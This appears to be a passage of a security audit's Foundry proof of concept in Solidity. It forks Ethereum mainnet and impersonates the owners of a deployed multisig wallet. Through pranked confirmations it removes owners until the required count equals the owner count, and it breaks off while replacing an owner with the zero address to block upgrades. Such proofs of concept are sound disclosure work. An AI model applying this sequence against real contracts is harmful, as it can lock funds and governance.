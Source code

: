 ```solidity
}

contract POC is Test {
    IMultiSigWallet c = IMultiSigWallet(payable(0x2028834B2c0A36A918c10937EeA71BE4f932da52));

    function setUp() public {
        vm.createSelectFork("https://rpc.ankr.com/eth");
    }

    function testRemoveReplaceOwnersBlockingUpgradesPOC() public { 
        address[] memory owners = c.getOwners();
        console.log("Before remove, Owners:");
        for(uint i; i < owners.length; i++) {
            console.log("%d. %s", i, owners[i]);
        }

        uint required = c.required();
        uint initial_tx_id;
        for(uint i;i < owners.length - required; i++) {
            vm.startPrank(owners[i], owners[i]);
            uint _tx_id = c.submitTransaction(address(c), 0, abi.encodeWithSignature("removeOwner(address)", owners[i]));
            console.log("Submitted tx with id : %d to remove owner : %s", _tx_id, owners[i]);
            if (i == 0) {
                initial_tx_id = _tx_id;
            }
            vm.stopPrank();
        }

        console.log("Confirming transaction %d", initial_tx_id);
        vm.prank(owners[1]);
        c.confirmTransaction(initial_tx_id);
        vm.prank(owners[2]);
        c.confirmTransaction(initial_tx_id);
        vm.prank(owners[3]);
        c.confirmTransaction(initial_tx_id);
        console.log("Owner0 is removed");

        console.log("Confirming transaction %d", initial_tx_id + 1);
        vm.prank(owners[4]);
        c.confirmTransaction(initial_tx_id + 1);
        vm.prank(owners[2]);
        c.confirmTransaction(initial_tx_id + 1);
        vm.prank(owners[3]);
        c.confirmTransaction(initial_tx_id + 1);
        console.log("Owner1 is removed");

        console.log("prev required: %d", required);
        console.log("prev #owners : %d", owners.length);

        owners = c.getOwners();
        require(required == owners.length, "required is not equal to the number of owners");

        console.log("After remove, Owners:");
        for(uint i; i < owners.length; i++) {
            console.log("%d. %s", i, owners[i]);
        }        

        required = c.required();
        console.log("new required: %d", required);
        console.log("new #owners : %d", owners.length);

        console.log("Replacing owner0 with address(0)");
```